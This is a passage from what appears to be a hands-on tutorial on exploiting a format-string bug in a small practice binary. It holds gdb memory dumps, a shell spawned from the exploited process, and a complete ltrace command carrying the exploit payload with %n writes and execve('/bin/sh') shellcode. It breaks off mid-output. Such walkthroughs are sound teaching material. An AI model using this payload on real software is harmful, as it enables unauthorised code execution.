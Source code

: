 ```bash
0xffffcefc:	0xffffcfde	0x30333525	0x25753630	0x256e2436
0xffffcf0c:	0x32353231	0x37257531	0x0beb6e24	0x31c0315b
0xffffcf1c:	0xb0d231c9	0xe880cd0b	0xfffffff0	0x6e69622f
0xffffcf2c:	0x0068732f	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfac:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfbc:	0x00000000	0xffffcfe0	0x00000000	0x00000000
0xffffcfcc:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfdc:	0xffffcf16	0x00000000	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x2410c591	0x60f24381
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7cd4	0xf7fe2410
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe2410	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd233	0xffffd278
0xffffd07c:	0x00000000	0xffffd2b0
gef➤  c
Continuing.
process 16724 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$ whoami
[Detaching after fork from child process 16727]
shogun
$
```

OK. Trying it outside. It doesn't work again. Okay, let's try `ltrace` tool which shows you the library functions execution.

```bash
$ ltrace ./format-string $(python -c 'print "\xfc\xcf\xff\xff" + "\xfe\xcf\xff\xff" + "%53038u" + "%6$n" + "%12489u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
__libc_start_main(0x80491b6, 2, 0xffffd104, 0x8049220 <unfinished ...>
strncpy(0xffffcf68, "\374\317\377\377\376\317\377\377%53038u%6$n%12489u%7$n\353\v"..., 200)                                                        = 0xffffcf88
printf("\374\317\377\377\376\317\377\377%53038u%6$n%12489u%7$n\353\v"..., 4294955730, 0xc8, 134517204, 0��������
```
